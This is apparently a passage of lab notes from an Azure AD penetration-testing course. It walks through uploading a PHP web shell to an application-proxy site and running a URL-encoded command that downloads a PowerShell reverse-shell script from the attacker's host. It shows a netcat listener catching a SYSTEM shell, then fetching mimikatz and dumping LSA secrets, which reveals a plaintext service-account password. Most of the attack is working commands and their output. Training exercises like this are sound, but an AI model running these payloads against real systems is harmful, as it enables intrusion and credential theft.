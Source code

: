 ```powershell
DisplayName: admin UPN: admin@defcorphq.onmicrosoft.com ObjectID: 4d67b155-3494-46d0-a4cf-de359d8a9d68
DisplayName: RedAir UPN: redair@defcorphq.onmicrosoft.com ObjectID: eba5beef-cb97-48bc-be3a-ad195b04b38f
DisplayName: student72 UPN: student72@defcorphq.onmicrosoft.com ObjectID: 20e74a5e-9768-4201-92b2-e58908b94ef9

<snip>
```

- The User Identity we created earlier (`student72@defcorphq.onmicrosoft.com`) can access that Enterprise Application, which means that we can use those credentials to log in `https://fms-defcorphq.msappproxy.net/`.
- At the `Config` blade we can upload a PHP web shell. and use it to run OS commands at `https://fms-defcorphq.msappproxy.net/dist/uploads/student72shell.phtml?cmd=whoami`
```powershell
PS C:\AzAD\Tools> type .\student72shell.phtml
<?php
system($_REQUEST['cmd']);
?>
```

- We can use that to get a reverse shell to our machine, after hosting the necessary files to our local web server.
```http
https://fms-defcorphq.msappproxy.net/dist/uploads/student72shell.phtml?cmd=powershell%20iex%20(New-Object%20Net.Webclient).downloadstring(%27http://172.16.150.72:82/Invoke-PowerShellTcp.ps1%27);Power%20-Reverse%20-IPAddress%20172.16.150.72%20-Port%204444
```

```powershell
PS C:\AzAD\Tools> C:\AzAD\Tools\netcat-win32-1.12\nc64.exe -lvp 4444
listening on [any] 4444 ...
172.16.4.47: inverse host lookup failed: h_errno 11004: NO_DATA
connect to [172.16.150.72] from (UNKNOWN) [172.16.4.47] 58947: NO_DATA
Windows PowerShell running as user DEFFIN-APPPROXY$ on DEFFIN-APPPROXY
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\xampp\htdocs\dist\uploads>whoami;hostname
nt authority\system
deffin-appproxy
```

- We can now use **Mimikatz** to extract credentials from LSA.
```powershell
PS C:\xampp\htdocs\dist\uploads> wget http://172.16.150.72:82/mimikatz.exe -O mimikatz.exe
PS C:\xampp\htdocs\dist\uploads> .\mimikatz.exe "privilege::debug" "token::elevate" "lsadump::secrets" "exit"

<snip>

Domain : DEFFIN-APPPROXY
SysKey : f51e6925dddf1463b3b2414bd9a11489

<snip>

Secret  : _SC_SNMPTRAP / service 'SNMPTRAP' with username : adfsadmin@deffin.com
cur/text: UserToCreateandManageF3deration!
old/text: UserToCreateandManageF3deration!
```